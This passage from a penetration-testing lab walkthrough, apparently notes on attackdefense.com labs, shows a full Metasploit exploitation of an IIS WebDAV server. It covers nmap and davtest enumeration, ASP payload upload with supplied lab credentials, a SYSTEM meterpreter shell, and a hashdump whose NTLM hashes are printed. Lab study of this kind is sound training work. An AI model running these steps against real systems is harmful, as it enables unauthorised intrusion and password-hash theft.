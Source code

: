 - *This exploit automatically deleted the `/webdav/metasploit.asp` payload*
- Find the flag, running `meterpreter` commands

```bash
shell
# will provide a cmd shell on the target machine
cd \
dir
type flag.txt
```

<details><summary>Reveal Flag: 🚩</summary></details>

------

## Lab 3 (Extra)

> [Windows: IIS Server Metasploit Backdoor](https://attackdefense.com/challengedetails?cid=2318)
>
> - Target IP: `10.4.23.148`
> - IIS exploitation with Metasploit
> - Credentials provided: `bob`:`password_123321`

```bash
nmap -sV 10.4.23.148
nmap -p80 -sV --script http-enum 10.4.23.148
davtest -auth bob:password_123321 -url http://10.4.23.148/webdav
msfconsole
```

```bash
use exploit/windows/iis/iis_webdav_upload_asp
set RHOSTS 10.4.23.148
set HttpUsername bob
set HttpPassword password_123321
set PATH /webdav/meta.asp
exploit
```

```bash
getuid
	Server username: NT AUTHORITY\SYSTEM
hashdump
	[-] priv_passwd_get_sam_hashes: Operation failed: The parameter is incorrect.
migrate 5820

hashdump

Administrator:500:aad3b435b51404eeaad3b435b51404ee:5c4d59391f656d5958dab124ffeabc20:::
bob:1008:aad3b435b51404eeaad3b435b51404ee:31b977436c6ea5bfa9ee65aaddb880d1:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:58f8e0214224aebc2c5f82fb7cb47ca1:::
```
